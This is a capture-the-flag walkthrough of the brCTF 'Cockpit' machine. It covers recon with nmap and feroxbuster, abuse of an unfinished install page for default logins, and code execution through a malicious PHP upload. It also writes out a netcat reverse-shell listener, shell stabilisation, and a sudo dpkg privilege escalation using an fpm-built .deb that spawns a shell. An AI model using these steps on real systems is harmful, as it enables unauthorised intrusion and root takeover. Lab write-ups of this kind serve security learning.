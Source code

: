 # Cockpit Machine from brCTF

## Information Gathering/Reconnaissance
As usual we fire up our favourite network mapper (nmap) and perform some basic recon. We can see that we have only port 80 (http) open.
`nmap -sC -sV -oN cokcpit.nmap 10.0.160.145`
```
Nmap scan report for 10.0.160.145
Host is up (0.24s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-title: Cockpit
|_Requested resource was /auth/login?to=%2F

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second stage of out recon we checkout the application running on port `80` from our browser. <br>
We are greeted with a homepage.... interesting!
![Cockpit Homepage](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/homepage.png "a title")

Next we try to find out what other pages are available on our target. We employ the servies of our directory bruteforcing tool (feroxbuster) or an other webfuzzer. <br>
`feroxbuster -u http://10.0.160.145 -w /raft-medium-wordlists.txt`
```
302      GET        0l        0w        0c http://10.0.160.145/ => http://10.0.160.145/auth/login?to=%2F
302      GET        0l        0w        0c http://10.0.160.145/system => http://10.0.160.145/auth/login?to=%2Fsystem
400      GET        7l       11w      157c http://10.0.160.145/!%22%C2%A3$%^
302      GET        0l        0w        0c http://10.0.160.145/?????? => http://10.0.160.145/auth/login?to=%2F%3F%253F%253F%253F%253F%253F%3D
400      GET        7l       11w      157c http://10.0.160.145/100%sexy
400      GET        7l       11w      157c http://10.0.160.145/100%angel
400      GET        7l       11w      157c http://10.0.160.145/100%bitch
400      GET        7l       11w      157c http://10.0.160.145/100%me
400      GET        7l       11w      157c http://10.0.160.145/100%cute
400      GET        7l       11w      157c http://10.0.160.145/100%love
400      GET        7l       11w      157c http://10.0.160.145/!%22%C2%A3$%^&*()
302      GET        0l        0w        0c http://10.0.160.145/content => http://10.0.160.145/auth/login?to=%2Fcontent
400      GET        7l       11w      157c http://10.0.160.145/100%cool
301      GET        7l       11w      169c http://10.0.160.145/install => http://10.0.160.145/install/
404      GET        0l        0w        0c http://10.0.160.145/austin101
```

## Exploitation
Something interesting the results above. We find a `/install` endpoint. <br>
After visiting this page in the browser we realized that the system administrator setup cockpit application without fully installing. Nice! we can abuse this. <br> After visiting this endpoint cockpit will be installed and will setup an account with default logins.
![Cockpit Install Page](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/install_the_software.png "a title")

Using the default logins obtained on installation we can login to the cockpit application.
![Cockpit Login Page](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/login_with_default_creds.png "a title")

Successful Login attempt and we a greeted with the application dashboard. From there we can do a little recon to find out the version of cockpit running. From the image below, `cockpit v2.4.0` is found to be running.
![Cockpit Dashboard Page](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/cockpit_version_info.png "a title")

As a hacker google should be one of your cherised tools. Using the google search engine we can search for publicly available exploit for `cockpit v2.4.0`. <br> We find a publicly disclosed exploitation process [here](https://huntr.dev/bounties/f73eef49-004f-4b3b-9717-90525e65ba61/).
![Public Expliot](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/google_vuln.png "a title")

From the steps provided on the [website](https://huntr.dev/bounties/f73eef49-004f-4b3b-9717-90525e65ba61/).
1. We must first craft out malicous php script.
![exploit code](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/exploit_code.png "a title")

2. Head over to the assest page on cockpit and upload our malicious php script.
![uploading asset](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/asset_upload.png "a title")
![uploading php script](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/uploading_php_script.png "a title")

3. Click on the options icons after fully uploding the asset and select `copy asset link` from the popup.
![uploading php script](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/asset_options.png "a title")

4. Open a new browser tab and paste the link there. Hold up! one last thing to do before execution. After pasting the link remove `/http:` from the url and now you can execute.

Finally! we now have RCE on the target and we can get a shell on netcat.<br>
We first start by running our netcat listener.
`nc -lnvp 8989`
![uploading php script](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/listening_on_netcat.png "a title")

Now we can send execute command on our malicious php web page to get a shell on our listener.<br>
![netcat payload shell](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/netcat_payload.png)

Boom we get a connection on our listener.
![netcat rev shell](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/recieved_nc_connection.png)

## Post Exploitation
Anytime we get a shell through netcat we obtain a dumb shell. A dump shell has very little functionality and therefore we need a stable shell. Shell Stabilization prevents you from killing your reverse shell and adds proper shell functionalities.

#### Shell stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>

## Privilege Escalation
We first check our privileges.
`sudo -l`
![PE vector](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/priv_escalation.png)

Doing a search on for dpkg on [gtfobins](https://gtfobins.github.io/gtfobins/dpkg/#sudo)
![gfobins](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/gtfobins_privesc.png)

Now the way this is going to work is that we would build a malcious debian package and then we try installing the package which will run our malicious code embedded in the package.<br>
Steps to building malicious package.
1. Install fpm: `sudo apt install ruby && sudo gem install fpm`
2. Build package with fpm: ```TF=$(mktemp -d) &&
echo 'exec /bin/sh' > $TF/x.sh &&
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF```
![mal deb package](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/creating_mal_packgae.png)

We now have our malicous package on our host and we can now transfer to our target.<br>
Start your python server: `python3 -m http.server 8000`
![python transfer](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/python_server_for_mal_package.png)

Download the malicous package on your target.<br>
NB: Make sure you are in a writable directory like `/tmp`. <br>

![python transfer download](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/downloading_mal_package_from_attacker_server.png) 

Now we can execute and get root access.<br>
![execute code](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/exec_command_priv_root.png)<br>
We are now root!!! :smiley: <br>
![iamroot](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/i_am_root.png)